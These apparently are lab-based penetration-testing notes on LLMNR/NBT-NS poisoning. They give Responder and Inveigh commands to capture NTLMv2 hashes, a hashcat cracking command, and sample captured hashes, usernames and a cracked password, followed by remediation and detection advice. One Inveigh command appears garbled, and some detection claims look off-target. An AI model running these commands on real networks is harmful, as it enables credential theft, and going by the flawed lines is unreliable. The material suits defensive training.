

# LLMNR/NBT-NS Poisoning (from Linux)

This section covers a common technique for gaining an initial foothold in an AD environment: Man-in-the-Middle attacks on Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) broadcasts. The goal is to capture password hashes or cleartext credentials for domain user accounts.

---

## LLMNR & NBT-NS Primer
- **LLMNR (UDP 5355):** DNS-like protocol for local name resolution when DNS fails.
- **NBT-NS (UDP 137):** NetBIOS-based name resolution for local networks.
- If DNS fails, Windows will broadcast LLMNR/NBT-NS requests to the local network. Any host can reply, making poisoning possible.

### Attack Flow (Visual)


---

## Tools for LLMNR/NBT-NS Poisoning
| Tool       | Description                                                                 |
|------------|-----------------------------------------------------------------------------|
| Responder  | Python tool for LLMNR, NBT-NS, MDNS poisoning and credential capture.       |
| Inveigh    | Cross-platform MITM tool for spoofing/poisoning (C#/PowerShell).            |
| Metasploit | Has modules for LLMNR/NBT-NS poisoning and credential capture.              |

---

## Using Responder
Responder is the most common tool for this attack. It can run in passive (analyze) or active (poison) mode.

### Common Responder Options
- `-A` : Analyze mode (listen only, no poisoning)
- `-I <iface>` : Network interface to use
- `-w` : Start WPAD rogue proxy server
- `-f` : Fingerprint hosts
- `-v` : Verbose output

### Example: Start Responder in Poisoning Mode
```bash
sudo responder -I ens224
```

### Example: Start Responder in Analyze Mode
```bash
sudo responder -I ens224 -A
```

Responder will print captured hashes to the console and save them in `/usr/share/responder/logs/`.

---

## Ports to Monitor/Poison
- UDP 137, 138, 53, 5355, 5353
- TCP 80, 135, 139, 445, 1433, 21, 25, 110, 587, 3128, 3141, 389

---

## Example: Captured Hashes
Responder saves hashes in files like `SMB-NTLMv2-SSP-<IP>.txt`.

---

## Cracking Captured Hashes
Captured NTLMv2 hashes can be cracked offline with Hashcat or John.

### Example: Crack NTLMv2 Hash with Hashcat
```bash
hashcat -m 5600 captured_hash.txt /usr/share/wordlists/rockyou.txt
```

**Sample Output:**
```
FOREND::INLANEFREIGHT:4af70a79938ddf8a:...:Klmcargo2
Status...........: Cracked
Hash.Name........: NetNTLMv2
Recovered........: 1/1 (100.00%) Digests
```

---

## Key Points
- LLMNR/NBT-NS poisoning is a powerful way to capture credentials in AD environments.
- Use Responder or Inveigh to listen and poison requests.
- Captured hashes can be cracked offline for cleartext passwords.
- Always run with proper scope and permissions.

---


## LLMNR/NBT-NS Poisoning - from Windows

LLMNR & NBT-NS poisoning is possible from a Windows host as well. In this section, we use Inveigh (PowerShell and C#) to capture credentials, similar to Responder on Linux.

---

### Inveigh Overview
- Inveigh is a MITM tool for spoofing/poisoning LLMNR, NBNS, mDNS, DNS, DHCPv6, HTTP, SMB, LDAP, and more.
- Available in PowerShell and C# versions (InveighZero).
- Can listen on IPv4/IPv6 and capture NTLM hashes and cleartext credentials.
- Typically found in `C:\Tools` on the Windows attack host.

---

### Using Inveigh (PowerShell)
```powershell
# Import the module
Import-Module .\Inveigh.ps1
# List all parameters
(Get-Command Invoke-Inveigh).Parameters
# Start LLMNR/NBNS spoofing, output to console and file
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
**Sample Output:**
```
[*] Inveigh 1.506 started at ...
[+] LLMNR Spoofer = Enabled
[+] NBNS Spoofer For Types 00,20 = Enabled
[+] SMB Capture = Enabled
[+] HTTP Capture = Enabled
[+] Output Directory = C:\Tools
[+] File Output = Enabled
[+] Console Output = Full
... (hashes and requests captured)
```

---

### Using Inveigh (C# / InveighZero)
```powershell
# Run the C# executable
.\Inveigh.exe
```
**Sample Output:**
```
[*] Inveigh 2.0.4 [Started ...]
[+] LLMNR Packet Sniffer [Type A]
[+] HTTP Listener [HTTPAuth NTLM | Port 80]
[+] SMB Packet Sniffer [Port 445]
[+] File Output [C:\Tools]
... (hashes and requests captured)
```

#### Interactive Console
- Press `ESC` to enter/exit the interactive console.
- Use commands like `GET NTLMV2UNIQUE` to view unique captured hashes, or `GET NTLMV2USERNAMES` to list usernames.

---

### Example: Captured Hashes and Usernames
```
backupagent::INLANEFREIGHT:B5013246091943D7:16A41B703C8D4F8F6AF75C47C3B50CB5:... (NTLMv2 hash)
forend::INLANEFREIGHT:32FD89BD78804B04:DFEB0C724F3ECE90E42BAF061B78BFE2:... (NTLMv2 hash)

IP Address      Host                Username
172.16.5.125    ACADEMY-EA-FILE     INLANEFREIGHT\backupagent
172.16.5.125    ACADEMY-EA-FILE     INLANEFREIGHT\forend
```

---

### Remediation
- **Disable LLMNR:**
  - Group Policy: Computer Configuration → Administrative Templates → Network → DNS Client → "Turn OFF Multicast Name Resolution"
- **Disable NBT-NS:**
  - Locally: Network Adapter Properties → IPv4 → Advanced → WINS → Disable NetBIOS over TCP/IP
  - Or via PowerShell script:
    ```powershell
    $regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces"
    Get-ChildItem $regkey |foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}
    ```
- **Push via GPO:** Use a startup script in Group Policy to apply the above PowerShell script domain-wide.
- **Other mitigations:**
  - Filter/block LLMNR/NetBIOS traffic
  - Enable SMB Signing
  - Use IDS/IPS and network segmentation

---

### Detection
- Monitor for traffic on UDP 5355 (LLMNR) and 137 (NBT-NS)
- Watch for Windows Event IDs 4697 and 7045
- Monitor registry key `HKLM\Software\Policies\Microsoft\Windows NT\DNSClient` for `EnableMulticast` changes
- Use honeytokens (fake LLMNR/NBT-NS requests) to detect spoofing responses

---

LLMNR/NBT-NS poisoning from Windows is just as effective as from Linux. Inveigh provides a powerful, flexible way to capture credentials and hashes for offline cracking or relay attacks. Always ensure you have authorization and operate within scope.
